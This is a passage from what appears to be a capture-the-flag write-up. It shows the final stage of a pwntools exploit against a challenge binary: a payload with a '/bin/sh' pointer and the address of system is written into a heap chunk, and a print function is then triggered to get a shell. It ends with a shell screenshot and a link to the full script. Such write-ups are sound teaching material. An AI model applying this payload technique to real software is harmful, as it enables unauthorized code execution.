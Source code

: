 ```python
payload = prefix + b"\x80" * 32 + bin_sh_ptr + p64(0xdeadbeefbeefdead) + p64(system) + b"/bin/sh\x00"
size = len(prefix) + len(payload)

size_b = bytes(str(size),'UTF-8')
log.info("Payload size: "+hex(size))
write_chunk = add_author(b"z"*16, b"z"*16, b"0", size_b, payload)
```

Now we just have to call `print_author` with our system chunk and we are done.
```python
p.sendlineafter(b"Choice: ",b"4")
p.sendlineafter(b"Author ID: ",system_chunk)
```

![](final_shell.png)

The full exploit can be found [here](./dstr.py).
